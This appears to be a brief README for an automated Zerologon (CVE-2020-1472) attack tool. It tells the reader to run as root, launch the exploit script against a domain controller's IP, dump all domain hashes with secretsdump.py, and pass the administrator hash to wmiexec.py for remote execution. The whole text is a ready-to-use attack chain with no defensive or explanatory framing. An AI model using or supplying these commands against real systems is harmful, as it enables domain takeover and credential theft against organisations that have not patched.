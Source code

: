 # zerologon automated 
run this script as a root user 

sudo su 

After installation is completed then run the python script as following 

python3 cve-2020-1472-exploit.py -n <computername>-t <target ip>

  secretsdump.py -no-pass -just-dc <domain>/<computername>\$@<targetip>

  wmiexec.py -hashes <hashdump of administrator> <domain>/Administrator@<targetip>

